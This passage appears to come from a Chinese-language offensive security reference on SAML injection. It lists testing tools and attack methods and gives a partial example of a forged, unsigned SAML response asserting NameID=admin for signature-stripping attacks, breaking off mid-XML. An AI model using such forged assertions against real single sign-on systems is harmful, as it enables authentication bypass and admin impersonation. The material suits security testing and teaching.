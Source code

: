 # SAML 注入

> SAML（Security Assertion Markup Language）是一种开放标准，用于在各方之间交换身份验证和授权数据，特别是身份提供商和服务提供商之间的交换。尽管 SAML 广泛用于实现单点登录（SSO）和其他联合身份验证场景，但不当的实现或配置可能会使系统暴露于各种漏洞。

## 概述

* [工具](#工具)
* [方法论](#方法论)
    * [无效签名](#无效签名)
    * [签名剥离](#签名剥离)
    * [XML 签名包装攻击](#xml签名包装攻击)
    * [XML 注释处理](#xml注释处理)
    * [XML 外部实体](#xml外部实体)
    * [可扩展样式表语言转换](#可扩展样式表语言转换)
* [参考文献](#参考文献)

## 工具

* [CompassSecurity/SAMLRaider](https://github.com/SAMLRaider/SAMLRaider) - SAML2 Burp 插件。
* [ZAP 插件/SAML 支持](https://www.zaproxy.org/docs/desktop/addons/saml-support/) - 允许检测、显示、编辑和模糊化 SAML 请求。

## 方法论

一个 SAML 响应应该包含 `<samlp:Response xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol"`。

### 无效签名

未由真实证书颁发机构签名的签名容易被克隆。确保签名是由真实证书颁发机构签署的。如果证书是自签名的，您可能能够克隆该证书或创建自己的自签名证书来替换它。

### 签名剥离

> [...] 接受未签名的 SAML 声明等同于接受用户名而未检查密码 - @ilektrojohn

目标是伪造一个未经签名的完整 SAML 声明。对于某些默认配置，如果从 SAML 响应中省略签名部分，则不会执行签名验证。

示例：不带签名的 SAML 声明，其中 `NameID=admin`。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<saml2p:Response xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol" Destination="http://localhost:7001/saml2/sp/acs/post" ID="id39453084082248801717742013" IssueInstant="2018-04-22T10:28:53.593Z" Version="2.0">
    <saml2:Issuer xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion" Format="urn:oasis:names:tc:SAML:2.0:nameidformat:entity">REDACTED</saml2:Issuer>
    <saml2p:Status xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol">
        <saml2p:StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success" />
    </saml2p:Status>
    <saml2:Assertion xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion" ID="id3945308408248426654986295" IssueInstant="2018-04-22T10:28:53.593Z" Version="2.0">
        <saml2:Issuer Format="urn:oasis:names:tc:SAML:2.0:nameid-format:entity" xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">REDACTED</saml2:Issuer>
        <saml2:Subject xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">
            <saml2:NameID Format="urn:oasis:names:tc:SAML:1.1:nameidformat:unspecified">admin</saml2:NameID>
            <saml2:SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
                <saml2:SubjectConfirmationData NotOnOrAfter="2018-04-22T10:33:53.593Z" Recipient="http://localhost:7001/saml2/sp/acs/post" />
            </saml2:SubjectConfirmation>
        </saml2:Subject>
        <saml2:Conditions NotBefore="2018-04-22T10:23:53.593Z" NotOnOrAfter="2018-0422T10:33:53.593Z" xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">
            <saml2:AudienceRestriction>
```